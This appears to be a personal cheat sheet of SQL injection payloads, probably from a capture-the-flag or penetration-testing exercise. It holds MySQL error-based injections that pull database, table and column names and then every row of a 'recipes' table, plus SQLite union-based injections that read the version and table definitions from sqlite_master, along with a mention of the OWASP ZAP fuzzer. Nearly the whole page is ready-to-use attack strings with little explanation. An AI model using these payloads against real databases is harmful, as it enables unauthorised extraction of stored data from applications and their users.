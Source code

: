 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- The actual data retriving payload inside <<<>>>

```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT       ........... <<<version()>>> ...........          )s), 8446744073709551610, 8446744073709551610)))#
```
### Payloads
- Retrieve Databases names in one line
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT GROUP_CONCAT(schema_name) AS AllDatabases FROM information_schema.SCHEMATA)s), 8446744073709551610, 8446744073709551610)))#
```
- Retrive Table Names 
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'recipes' AND TABLE_TYPE = 'BASE TABLE')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Column Names
- Group_concat(concatinate the values of output in one line)
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'recipes' AND TABLE_NAME = 'recipes')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Data from Table Columns
- Concat_ws(replace null value as '')
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT concat_ws(',',id,name,servings,ingredients,instructions,description,category,added,modified,creator,editor,imagefile) FROM recipes)s), 8446744073709551610, 8446744073709551610)))#
```



## UnionBased SQLI
- SQLite
- Test for the available columns
```
' union select 1,2,3,4,5,6,7 -- 
```
### Inject Payload
- Version check
```
' union select sqlite_version(),2,3,4,5,6 --
```
- Table Name exfilterate
```
' union select tbl_name,2,3,4,5,6 from sqlite_master--
```
- Column names exfilterate
```
' union select sql,2,3,4,5,6 from sqlite_master--
```

